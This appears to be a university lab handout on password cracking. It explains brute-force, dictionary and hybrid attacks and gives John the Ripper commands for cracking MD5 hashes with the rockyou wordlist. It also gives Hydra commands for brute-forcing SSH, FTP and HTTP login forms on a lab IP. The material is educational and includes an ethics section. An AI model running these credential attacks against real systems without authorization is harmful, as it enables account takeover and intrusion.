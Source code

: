 **1. Aim:** To demonstrate and understand password cracking techniques using professional penetration testing tools, exploring the mechanisms of password vulnerability and the importance of robust password security.

**2. Learning Objectives**

- Understand the principles behind password cracking techniques - Gain hands-on experience with professional security assessment tools
- Analyze password strength and common vulnerabilities
- Develop insights into implementing stronger authentication mechanisms

**3. Theory**

**Password Cracking Techniques**

**Password cracking involves attempting to discover or bypass authentication credentials through various methodologies:**

**Types of Password Cracking Methods**

1. **Brute Force Attack**
   - Systematically attempting all possible password combinations
   - Most time-consuming but potentially most comprehensive method
   - Effectiveness depends on password complexity
2. **Dictionary Attack**
   - Uses pre-compiled lists of common passwords
   - Leverages human tendency to use predictable password patterns
   - Significantly faster than pure brute force approaches
3. **Hybrid Attacks**
   - Combines dictionary words with numerical or symbolic modifications
   - Accounts for common password complexity requirements

**Tools Overview**

1. **John the Ripper**
   - Open-source password cracking tool
   - Supports multiple password hash formats
   - Can perform dictionary and brute force attacks
2. **Hydra**
   - Network logon cracker
   - Supports multiple protocols (HTTP, FTP, TELNET, etc.)
   - Allows parallel testing of multiple password candidates

**Ethical Considerations**

- Only perform password cracking on systems you own or have explicit permission to test
- Unauthorized password cracking is illegal and unethical
- Always obtain written consent before conducting security assessments

**3. Experimental Commands:**

#### John the Ripper:

**Installation**
```shell
sudo apt install john
```
```shell
sudo apt install libssl-dev libcrypto++-dev
```

**Generate MD5 Hashes using this command in the terminal:**

```shell
echo -n "password123" | md5sum
echo -n "hello123"    | md5sum
echo -n "admin"       | md5sum
echo -n "welcome"     | md5sum
```

**Create `hashes.txt` with those hashes**

```shell
echo "482c811da5d5b4bc6d497ffa98491e38" > hashes.txt
echo "49f68a5c8493ec2c0bf489821c21fc3b" >> hashes.txt
echo "21232f297a57a5a743894a0e4a801fc3" >> hashes.txt
echo "b4b147bc522828731f1a016bfa72c073" >> hashes.txt
```

```shell
sudo apt install hashcat
```

**Run John the Ripper**
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt
```
*If `rockyou.txt` compressed (as `.gz`), extract it:*
```shell
gunzip /usr/share/wordlists/rockyou.txt.gz
```

**Show Cracked Passwords**
```shell
john --show --format=Raw-MD5 hashes.txt 
```

#### Hydra

**Open Your Terminal**

Kali Linux comes with Hydra pre-installed. If not:
```bash
sudo apt update
sudo apt install hydra
```

**Know the Basic Syntax**
```bash
hydra -L <usernames_file> -P <passwords_file> <target> <service>
```
- `-L` = file with usernames
- `-P` = file with passwords
- `<target>` = target machine
- `<service>` = service (ssh, ftp, http, etc.)

 **Example Attack on SSH**

Let's say your target IP is 192.168.1.100, and you can create using `nano` as `.txt` files:
- `users.txt` → list of usernames
- `pass.txt` → list of passwords


**Brute-forcing the SSH login**
```bash
hydra -L users.txt -P pass.txt ssh://192.168.1.100
```

**FTP Attack Example**
```bash
hydra -L users.txt -P pass.txt ftp://192.168.1.100
```

**HTTP POST Form Example**

If you're attacking a web login (HTTP POST form), you need the parameters:

```bash
hydra -L users.txt -P pass.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid credentials"
```

- `/login.php` is the login path
- `user=^USER^&pass=^PASS^` is the POST data
- `Invalid credentials` is the failure string on a bad login

**Save the Output**
You can log the output like this:
```bash
hydra -L users.txt -P pass.txt ssh://192.168.1.100 -o found.txt
```

**5. Learning Outcomes**

_After completing this experiment, students will:_

- Understand password cracking methodologies
- Recognize common password vulnerabilities
- Develop skills in using professional security assessment tools
- Appreciate the importance of complex password design

**6. Conclusion**

Password security is a critical aspect of cybersecurity. This experiment demonstrates the ease with which weak passwords can be compromised, emphasizing the need for:

- Complex, unique passwords
- Multi-factor authentication
- Regular password rotation
- Advanced authentication mechanisms
